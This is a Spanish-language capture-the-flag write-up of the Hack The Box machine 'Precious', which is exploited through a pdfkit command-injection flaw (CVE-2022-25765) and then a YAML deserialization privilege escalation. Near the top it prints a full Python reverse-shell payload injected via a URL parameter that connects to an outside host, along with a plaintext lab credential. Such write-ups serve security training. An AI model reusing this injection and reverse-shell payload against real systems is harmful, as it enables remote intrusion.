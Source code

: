 # Hack The Box
    
  

  ![](portada.png)
  
## Máquina Precious

  



### Solución
    
    USER FLAG: "henry:Q3c1AqGHtoI0aXAYFH"
    
    
    REVERSE SHELL: http://10.10.14.253/?name=%20`python3 -c 'import 
    socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.253",9001));
    os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'` 
   

### Escaneo nmap

![](nmap.png)

### Añadimos el dominio al etc/hosts

![](redirect.png)

### Abrimos la página

![](1.png)

### Testeamos sus funciones con la url

![](2.png)

### Abriendo server en python

El server tiene un servicio que convierte páginas web en pdf, para ello necesitamos tener un servidor ejecutándose en nuestra máquina.

![](3.png)

### Descarga y análisis del pdf

Analizando los metadatos vemos que el pdf fué creado con pdfkit v0.8.6 el cual tiene un CVE-2022-25765 el cual nos dice que una app podría ser vulnerable si intenta representar una URL que tiene parámetros de cadena de consulta con la entrada del usuario.


![](4.png)

![](5.png)

![](6.png)

![](7.png)

### Reverse shell

Abriremos un oyente con netcat e introducimos nuestra reverse shell dentro de las comillas del código anterior, una vez hecho esto tendremos una shell.

![](8.png)

![](9.png)

![](10ng)

### Capturando la flag

Navegando entre directorios encontramos en el /home/henry un archivo llamado user.txt el cual no nos dejará acceder con los permisos actuales, en el archivo .bundle encontramos una password del usuario henry y ya podemos leer nuestra flag

![](11.png)

![](12.png)

![](13.png)

### Escalada de privilegios a ROOT

Haciendo sudo -l listamos lo que podemos ejecutar desde esta cuenta de usuario y que descubrimos henry puede ejecutar como root el archivo /opt/update_dependecies.rb el cual tras un vistazo al código vemos que usa YAML.LOAD que es vulnerable al ataque de deserialización, para esto necesitamos crear una carga dentro de un archivo llamado dependencies.yml.

![](14.png)

![](15.png)

![](16.png)


**Autor:** [AlbertoMiñan](https://github.com/albertominan)
